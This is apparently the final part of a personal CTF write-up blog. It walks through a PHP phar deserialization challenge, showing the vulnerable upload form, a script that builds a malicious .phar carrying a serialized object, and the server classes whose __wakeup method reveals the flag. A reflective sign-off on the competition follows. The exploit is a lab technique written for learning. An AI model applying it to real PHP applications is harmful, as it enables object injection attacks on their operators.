<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
<input type="file" name="the_file" />
<input type="hidden" name="s" value="f" />
<input type="submit" name="submit" value="Upload File" />
</form>

<?php

if (isset($_POST['submit']) && $_FILES['the_file']['size'] > 0)
{
	$dest_dir = getcwd() . "/uploads/";

	echo "<br />Submitted<br />";
	$target_file = $dest_dir . basename($_FILES["the_file"]["name"]);
	//print_r($_FILES);
	move_uploaded_file($_FILES["the_file"]["tmp_name"], $target_file);

	if ($_POST['s'] === 'p')
		$s = 'phar://';
	else
		$s = 'file://';
	echo md5_file("$s$target_file");
	unlink($target_file);
}

?>

</body>

</html>
```

It seems that we are able to upload files, which will be hashed using MD5 and then removed. The `s` POST parameter switches the URL scheme from `file://` to `phar://` which may be used to trigger a deserialization vulnerability.
After googling for a bit and following the steps in [this website](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability/), we were able to create a valid `.phar` file using the following PHP script:

```php
<?php
class Wrapper {}

$dummy = new Wrapper();
// Only creates new class thing if this is set
$dummy->doit = "irrelevant!";

$phar = new Phar("payload.phar");
$phar->startBuffering();
$phar->setStub("<?php echo 'STUB here!'; __HALT_COMPILER();");
$phar["file"] = "text";
$phar->setMetadata($dummy);
$phar->stopBuffering();

?>
```

The choice of `Wrapper` for a class is due to the webserver having these two files, `wrapper.php` and `doit.php`:

```php
<?php
include("doit.php");

class Wrapper
{
	private $doit;
	public function __wakeup()
	{
		if (isset($this->doit))
		{
			$this->doit = new Doit();
		}
		else
		{
			echo "Hello from Wrapper!";
		}
	}
}
?>
```

```php
<?php
class Doit {
        public function __construct()
        {
                $flag = getenv("FLAG");
                echo "flag{{$flag}}\n";
        }
}
?>
```

According to the blogpost linked above, `__wakeup` is called when an object is deserialized, and thus if a `Wrapper` object has its `doit` property set, it will create a new `Doit` object, which will echo the flag! The flag was `flag{scooby}`.

This was quite a neat trick that I had already heard about but never had the chance to try. It was nice to learn a new technique!

## Sign-off

In general, this was a great CTF with some variety of challenges, despite their difficulty ranging mostly from beginner to intermediate.
The challenges had amazing support via discord and always had some sort of theme or joke, which added to the enjoyment! Some challenges had several flags for the same service or website, which made poking around more fun than just looking at a set of separate services!
I believe that the only negative thing I can point out is that the scoring was not the fairest, due to not being dynamic. Easy challenges that were rated with a lot of points were low-hanging fruit and some of the harder challenges were not worth enough points to be worth the time investment. Some of the Code challenges were also quite trivial and felt like some easy picking of points due to being trivial tasks (and didn't quite fit the context of a CTF tbh).

Alas, no CTF will be perfect! I'm just glad to say that we still solved plenty challenges and had a lot of fun while doing so, also learning some new tricks along the way!
Thankfully I had a good amount of time to dedicate to this CTF for once and thus was able to grab more flags than in the other CTFs I recently participated in!

I also noticed that this took me longer than expected to write due to going over every challenge I solved in quite some detail. I may start only highlighting the most interesting challenges I solve, limiting myself to 4-5 or so, since otherwise it gets a bit unmanageable to keep a decent schedule while still focusing on the other things I also have/want to do. As context, I started writing this blogpost on Monday, and it is Thursday as I'm writing this paragraph now. I still have some challenges to write about so it will probably only be released on Friday - which future me confirms.

In the meantime I have been participating in [SEI](https://seium.org/)'s [CTF](https://sei21.ctfd.io/), as it seemed like it would be on the easier side, did not have a lot of participants, and had prizes that seemed nice.
I have placed first with 130 points, having solved all challenges, and the CTF will probably close later today. I'm not sure if I'll do a writeup on the challenges of this CTF since several of them were either simple or arbitrary, which was not exactly to my enjoyment so I have a hard time justifying the effort to write a blogpost about it.

If you have any question or suggestion about any of these challenges (or just want to talk about CTFs or something of the sort) feel free to reach out to me via my email or [twitter](https://twitter.com/miguelpduarte)!

I hope you enjoyed reading about these challenges, much like I enjoyed solving them.<br/>
As always: thanks for reading!
